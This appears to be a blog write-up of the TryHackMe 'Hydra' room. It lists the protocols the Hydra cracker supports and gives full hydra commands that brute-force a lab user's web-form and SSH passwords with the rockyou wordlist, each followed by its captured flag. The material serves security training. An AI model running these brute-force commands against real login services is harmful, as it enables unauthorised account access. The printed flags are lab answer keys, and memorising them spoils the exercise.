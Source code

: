 ```yaml
---
title: Hydra 
date: 2022-06-20 18:32:00 -0500
categories: [Lesson, Tryhackme]
tags: [hydra]
---
```



---

title: Hydra
published: true
---

Learn about and use Hydra, a fast network logon cracker, to bruteforce and obtain a website's credentials. 

[https://tryhackme.com/room/hydra](https://tryhackme.com/room/hydra)

![0xskar](/assets/hydra.jpeg)

* * *

## Task 1 - Hydra Introduction 

Hydra has the ability to bruteforce the following protocols: Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.

For more information on the options of each protocol in Hydra, read the official Kali Hydra tool page: https://en.kali.tools/?p=220

* * * 

## Task 2 - Using Hydra 

##   Answer the questions below

**Use Hydra to bruteforce molly's web password. What is flag 1?**

- ``hydra -t 16 -l molly -P /usr/share/seclists/Passwords/rockyou.txt 10.10.84.248 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"``

- THM{2673a7dd116de68e85c48ec0b1f2612e}

**Use Hydra to bruteforce molly's SSH password. What is flag 2?**

- ``hydra -t 16 -l molly -P /usr/share/seclists/Passwords/rockyou.txt 10.10.84.248 ssh``

- THM{c8eeb0468febbadea859baeb33b2541b}

* * * 